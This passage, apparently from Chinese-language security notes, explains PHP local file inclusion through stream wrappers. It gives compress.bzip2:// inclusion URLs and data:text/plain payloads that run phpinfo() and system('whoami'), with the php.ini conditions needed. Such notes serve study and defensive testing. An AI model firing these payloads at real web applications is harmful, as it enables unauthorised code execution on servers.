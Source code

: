 测试
用7-zip生成一个bz2压缩文件。
pyload:`http://127.0.0.1/xxx.php?a=compress.bzip2://C:/Users/liuxianglai/Desktop/test.bz2`
或者文件改为jpg后缀
`http://127.0.0.1/xxx.php?a=compress.bzip2://C:/Users/liuxianglai/Desktop/test.jpg`

![图片.png](https://upload-images.jianshu.io/upload_images/9113969-bd535d8f8d7ca051.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)





### 伪协议利用：data:URI schema

利用条件：

1. php版本大于等于php5.2
2. allow_url_fopen = On
3. allow_url_include = On

1. allow_url_include = On

姿势一：

```
index.php?file=data:text/plain,<?php phpinfo();?>
```



[![img](assets/6.png)](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/6.png?raw=true)

执行命令：

```
index.php?file=data:text/plain,<?php system('whoami');?>
```
